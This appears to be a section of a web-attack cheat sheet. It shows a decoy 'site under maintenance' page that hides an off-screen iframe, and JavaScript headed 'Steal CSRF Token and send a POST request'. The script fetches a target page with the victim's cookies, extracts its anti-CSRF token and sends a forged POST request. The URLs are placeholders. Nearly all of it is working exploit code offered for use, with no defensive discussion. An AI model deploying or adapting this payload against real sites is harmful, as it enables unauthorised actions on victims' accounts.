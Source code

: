                <!-- public.html -->
                <iframe src="2-1.html" style="position:absolute;top:-5000">
                </iframe>
                <h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>

# Steal CSRF Token and send a POST request

              function submitFormWithTokenJS(token) {

                  var xhr = new XMLHttpRequest();
                  xhr.open("POST", POST_URL, true);
                  xhr.withCredentials = true;

                  // Send the proper header information along with the request
                  xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

                  // This is for debugging and can be removed
                  xhr.onreadystatechange = function() {
                      if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                          //console.log(xhr.responseText);
                      }
                  }

                  xhr.send("token=" + token + "&otherparama=heyyyy");
              }

              function getTokenJS() {
                  var xhr = new XMLHttpRequest();
                  // This tels it to return it as a HTML document
                  xhr.responseType = "document";
                  xhr.withCredentials = true;
                  // true on the end of here makes the call asynchronous
                  xhr.open("GET", GET_URL, true);
                  xhr.onload = function (e) {
                      if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                          // Get the document from the response
                          page = xhr.response
                          // Get the input element
                          input = page.getElementById("token");
                          // Show the token
                          //console.log("The token is: " + input.value);
                          // Use the token to submit the form
                          submitFormWithTokenJS(input.value);
                      }
                  };
                  // Make the request
                  xhr.send(null);
              }

              var GET_URL="http://google.com?param=VALUE"
              var POST_URL="http://google.com?param=VALUE"
              getTokenJS();
